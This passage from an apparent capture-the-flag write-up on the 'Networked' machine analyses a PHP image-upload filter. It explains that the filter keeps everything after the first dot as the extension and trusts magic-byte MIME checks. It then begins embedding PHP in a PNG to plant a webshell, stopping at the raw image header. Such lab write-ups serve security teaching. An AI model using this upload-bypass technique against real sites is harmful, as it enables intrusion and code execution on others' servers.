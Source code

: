 ```
php > $ext = implode('.',$pieces); echo $ext;
php.png

```

The extension get all the things after the first `.`. That’ll come in handy.

The other thing to note in `lib.php` is the `check_file_type` function:

```

 57 function check_file_type($file) {
 58   $mime_type = file_mime_type($file);
 59   if (strpos($mime_type, 'image/') === 0) {
 60       return true;
 61   } else {
 62       return false;
 63   }
 64 }

```

A mime type typically comes from checking the mime database for file signatures. So something that starts with `MZ` is a Windows exe (or dll). Linux executables start with `\x7fELF`. Wikipedia has a [great page of these](https://en.wikipedia.org/wiki/List_of_file_signatures). So as long as I send a small file that looks like an image to start, it will be saved as `10_10_14_7.$ext`, where `$ext` is anything after the first `.` in the original file name.

### Intended Functionality

I took at look at the site as it was intended. On `/upload.php`, there’s a simple form:

![1566725658313](https://0xdfimages.gitlab.io/img/1566725658313.png)

I created a png real quick, and upload it. The page returns:

![1566725684851](https://0xdfimages.gitlab.io/img/1566725684851.png)

I’ll jump over to the other page I have from the source, `photos.php`:

![1566725726691](https://0xdfimages.gitlab.io/img/1566725726691.png)

I see my image, and if I right-click and select view image, I’m taken to `/uploads/10_10_14_5.png` and returned the image.

## Shell as apache

### Create Webshell

I already know from the source how to upload files to Networked. I’ll open my png from earlier in `vim` and go down a couple lines, and add some php:

```

<89>PNG
^Z
^@^@^@^MIHDR^@^@^A<A5>^@^@^@<D2>^H^F^@^@^@<EA><82><DF>c^@^@^@   pHYs^@^@^N<C4>^@^@^N<C4>^A<95>+^NESC^@^@^Z:IDATx<9C><ED><DD>]כ(^T<86><E1>g<83>o<FF><FF><FF><AD><C0>^\<80><DF>Ɛ<A4>v<A0><B9><AF><B5><E6><A0>S^M<A0><94><8D><80>bf<96>^D^@@^C<DC><FF><9D>^A^@^@&^D%^@@J^@<80>f^P
```